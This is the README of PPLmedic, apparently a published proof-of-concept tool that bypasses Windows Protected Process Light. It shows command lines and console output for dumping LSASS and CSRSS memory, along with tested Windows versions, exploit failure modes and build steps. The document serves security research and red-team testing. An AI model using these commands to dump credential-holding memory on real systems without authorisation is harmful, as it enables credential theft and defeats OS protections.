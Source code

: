 # PPLmedic

<p align="center">
  <img src="poc.png">
</p>

This tool implements a **Userland** exploit chain for injecting arbitrary code into a PPL with the signer type `Windows` and elevating to the signer type `WinTcb`. These techniques were originally discussed by James Forshaw (a.k.a. [@tiraniddo](https://infosec.exchange/@tiraniddo)) in his blog post [Injecting Code into Windows Protected Processes using COM - Part 1](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html).

To learn more about this tool, you should read its companion blog post here:

- [Bypassing PPL in Userland (again)](https://blog.scrt.ch/2023/03/14/bypassing-ppl-in-userland-again/)

## 💣 Disclaimer

I would qualify this tool as an _advanced Proof-of-Concept_. You should think twice before using it on a real engagement. It is safe to use as long as it is __not interrupted__, which cannot be guaranteed in the presence of an EDR for instance.

It modifies important registry keys related to the Windows Update Medic service. At worst, if those registry keys are not restored properly, this service will fail to function properly, but this __will not crash__ the OS.

## 📝 Usage

Prerequisites:

- __Privileges:__ Administrator or SYSTEM with `SeDebugPrivilege`
- __Platform:__ Windows 10/11 or Windows Server 2019/2022
- __Architecture:__ Only __x86_64__ is supported

```bat
REM Use the option -p to elevate from PPL-Windows to PPL-WinTcb
PPLmedic.exe dump "PID" "C:\FULL\PATH\TO\DUMP.dmp" [-p]
```

Dump a PPL-Windows or below (e.g.: LSASS):

```console
C:\WINDOWS\system32>tasklist | findstr lsass
lsass.exe                      756 Services                   0     20,028 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 756 c:\Temp\lsass.dmp
[...]
[+] Payload DLL successfully loaded after 272 attempts!
[*] Deleting 272 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[+] Memory dump of process with PID 756 successful: c:\Temp\lsass.dmp
[...]
```

Dump a PPL-WinTcb (e.g.: CSRSS):

```console
C:\WINDOWS\system32>tasklist | findstr csrss
csrss.exe                      520 Services                   0     26,420 K
csrss.exe                      608 Console                    1     57,548 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 520 c:\Temp\csrss.dmp -p
[...]
[+] Payload DLL successfully loaded after 181 attempts!
[*] Deleting 181 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[+] Target file 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' should now be cache signed (level=12 - Windows).
[*] Connected to remote process.
[+] Remote process protection level: 0x00000000 (PsProtectedSignerWinTcb-Light)
[+] Memory dump of process with PID 520 successful: c:\Temp\csrss.dmp
[...]
```

## 📋 Tests

| Windows version | PPL-Windows | PPL-WinTcb | Observation |
| --- | :---: | :---: | --- |
| __Windows 10__ 22H2 Build 19045.2673 | ✔ | ✔ | N/A |
| __Windows 11__ 22H2 Build 22621.1344 | ⚠ | ❌ | Frequent service crash + Fake cached signature exploit does not seem to work. |
| __Windows Server 2019__ Version 1809 Build 17763.4010 | ✔ | ✔ | N/A |
| __Windows Server 2022__ Version 21H2 Build 20348.1547 | ✔ | ✔ | N/A |

## 🚧 Known issues

### Error: "Unexpected error or timeout"

You get the following error because the exploit __timed out__ while trying to create a remote `TaskHandler` COM object. This is usually the sign that the target service `WaaSMedicSvc` crashed. This can be confirmed with the next message: `[!] Service WaaSMedicSvc is no longer running`. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Unexpected error or timeout while trying to create a remote TaskHandler instance.
[!] Service WaaSMedicSvc is no longer running, it probably crashed because of an invalid handle value.
[...]
```

### Error: "Reached the maximum number of attempts"

You get the following error because the exploit failed to write a valid object directory in __less than 1000 attempts__. This limit serves as a failsafe to prevent the target service from consuming too much resources. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[...]
[*] Attempt 1000/1000 (100%)
[-] Reached the maximum number of attempts.
[...]
```

### Error: "Failed to write LdrpKnownDllDirectoryHandle value"

You get the following error because an unexpected error occurred when calling `LaunchDetectionOnly` or `LaunchRemediationOnly`. This should be quite rare though. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Failed to write LdrpKnownDllDirectoryHandle value (thread exit code: 0x800706ba).
[...]
```

### Error: "Failed to cache sign ..."

You get the following error because the exploit __failed to cache sign__ the payload DLL. The oplock set on the catalog file was probably never triggered because it was already opened by the Kernel. You can try to rerun the tool at a later time (for Windows 11, refer to the "Tests" section).

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp -p
[...]
[*] Trying to write a valid object directory handle...
[+] Payload DLL successfully loaded after 1 attempts!
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[-] Failed to cache sign 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' (LE: 997).
[...]
```

## 🏗 Build instructions

This Visual Studio Solution comprises two projects (the executable and a payload DLL) that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions. The compiled payload DLL is automatically embedded into the final executable.

1. Open the Solution with Visual Studio 2019.
2. Select `Release / x64` (`x86` is not supported!).
3. `Build > Build Solution`.

## 🎖 Credits

- [@tiraniddo](https://infosec.exchange/@tiraniddo) - Injecting Code into Windows Protected Processes using COM - Part 1  
[https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html)
